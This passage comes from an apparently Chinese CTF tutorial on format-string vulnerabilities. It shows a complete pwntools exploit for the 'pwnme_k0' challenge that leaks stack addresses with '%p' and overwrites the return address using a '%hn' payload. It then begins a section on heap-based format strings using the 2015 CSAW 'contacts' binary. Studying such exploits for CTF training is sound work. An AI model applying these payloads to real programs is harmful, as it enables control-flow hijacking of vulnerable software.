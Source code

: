 这里使用data[1:]的原因是当我们split的时候由于起始的是0x，所以会产生‘’字符串，需要跳过。

```python
from pwn import *
from LibcSearcher import *
pwnme = ELF('./pwnme_k0')
if args['REMOTE']:
    sh = remote(11, 11)
else:
    sh = process('./pwnme_k0')
sh.recvuntil(':\n')
sh.sendline('a' * 8)
sh.recvuntil(':\n')
sh.sendline('%p' * 9)
sh.recvuntil('>')
sh.sendline('1')
sh.recvuntil('a' * 8 + '\n')
data = sh.recvuntil('1.', drop=True).split('0x')
print data
data = data[1:]
rbp = int(data[5], 16)
ret_addr = rbp - 0x38
sh.recvuntil('>')
sh.sendline('2')
sh.recvuntil(':\n')
sh.sendline(p64(ret_addr))
sh.recvuntil(':\n')
payload = '%2214d%8$hn'
sh.sendline(payload)
sh.recvuntil('>')
sh.sendline('1')
sh.interactive()
```

## 堆上的格式化字符串漏洞

### 原理

所谓堆上的格式化字符串指的是格式化字符串本身存储在堆上，这个主要增加了我们获取对应偏移的难度，而一般来说，该格式化字符串都是很有可能被复制到栈上的。

### 例子

这里我们以2015年CSAW中的contacts为例进行介绍。

#### 确定保护

```shell
➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
